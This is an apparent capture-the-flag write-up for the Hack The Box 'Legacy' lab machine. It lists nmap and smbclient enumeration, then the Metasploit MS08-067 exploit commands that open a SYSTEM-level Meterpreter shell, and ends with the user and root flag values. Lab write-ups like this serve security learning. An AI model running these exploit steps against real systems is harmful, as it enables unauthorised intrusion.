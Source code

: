 # Legacy 

## IP
> 
> 10.10.10.4
## nmap Scan
```
nmap -T4 -A 10.10.10.4 -Pn
```

![[Pasted image 20210728033315.png]]

## System Info 
>
 OS: Windows XP (Windows 2000 LAN Manager)
 Computer name: legacy


## Open Ports
       
>
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds

Both SMB 

## smbclient
```
smbclient -L ///10.10.10.4//
```

> Did not work

After Work Notes, my command was incorrect therefore I got no input, the correct command was:

```
smbclient -L \\\\10.10.10.4\\
```

## Metasploit 

### Search for SMB version 
```
msfconsole
search smb
use auxiliary/scanner/smb/smb_version
set rhost 10.10.10.4
run
```

>
No SMB version detected
Found that Machine is running Windows XP SP3 (language:English)


![[Pasted image 20210728034248.png]]

After searching online for exploits in this version I found this [rapid7 link](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi/)

We can use Metasploit to gain a shell inside the machine 

### Gaining Access to the machine 
```
msfconsole
use exploit/windows/smb/ms08_067_netapi
set rhost 10.10.10.4
set lhost tun0
run
```

Now we have access to the machine

#### Finding more information
```getuid```
>
Server username: NT AUTHORITY\SYSTEM

We are root

```sysinfo```
>
Computer        : LEGACY
OS              : Windows XP (5.1 Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows

Our Meterpreter and the Architecture of the machine are the same x86, that is good.

Lets open cmd 

```shell```

#### Finding the Flag

```
cd c:\
cd Documents and Settings
cd john
cd Desktop
type user.txt
```

And like that we got the Flag!

>e69af0e4f443de7e36876fda4ec7644f

If we want to find the root flag (no points)

```
cd c:\
cd Documents and Settings
cd Administrator
cd Desktop
type root.txt
```

>	
993442d258b0e0ec917cae9e695d5713

